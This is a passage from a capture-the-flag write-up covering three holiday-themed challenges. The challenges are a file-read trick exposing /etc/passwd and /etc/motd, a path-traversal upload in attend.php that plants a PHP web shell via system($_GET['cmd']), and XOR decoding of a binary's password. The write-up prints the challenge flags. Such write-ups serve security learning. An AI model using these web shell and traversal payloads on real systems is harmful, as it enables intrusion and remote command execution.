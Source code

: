 I never got anything with `{{7*7}}` to work, because `7*7` isn't a filename. Using a file that exists actually does something: `{{/etc/password}}` gave me the passwd-file, but no flag. The hint was "No flag.txt this time... you need to find a very common *nix file... Seasons greetings to you all!"    Common + greetings = /etc/motd

> `${5@nta5_li77l3_h3lp3r!}`

# Door 5 - Xmas Party Planner

Found `attend.php` in the git history, and it's not actually deleted on the server.
```php
<?php
if(isset($_POST["submit"])){
    $fname = uniqid($_POST["submit"]);
    $file = fopen("./incoming/".$fname.$_POST["age"], "w");
    $txt = $_POST["name"]." ".$_POST["age"].$_POST["attend"]."\n";
    fwrite($file, $txt);
}
?>
```
Posted with paramters:
```
age="/../decoy.php"
name=<pre><?php system($_GET['cmd']); ?>
```
And got a webshell on incoming/decoy.php. Found the flag in /flag.txt

> `${W4@7_@_P@R7Y_PHP_M@K3Z!}`

# Door 6 - Naughty List Adm
> Check out yet another special binary: [re-santa-2](./files/re-santa-2)

Need to fetch a password from the binary and submit to a service to get the flag. The input is XORed and compared to a password. 

```C
for (i = 0; i < 15; i = i + 1) {
  if (((int)pwd[i] ^ (uint)(byte)(&KEY)[i % 4]) != (uint)(byte)(&SECRET)[i]) {
    return 0;
  }
}
```

```python
key = [ 0x41, 0x42, 0x43, 0x44 ] # ABCD
pwd = [ 0x09, 0x23, 0x35, 0x21, 0x18, 0x2d, 0x36, 0x06, 0x24, 0x27, 0x2d, 0x03, 0x71, 0x72, 0x27 ]
for i in range(len(pwd)):
    print(chr(pwd[i] ^ key[i % 4]), end='')
print()
```
Gives `HaveYouBeenG00d` as password.

> `${N@u647y_1i57_3v@d3d}`
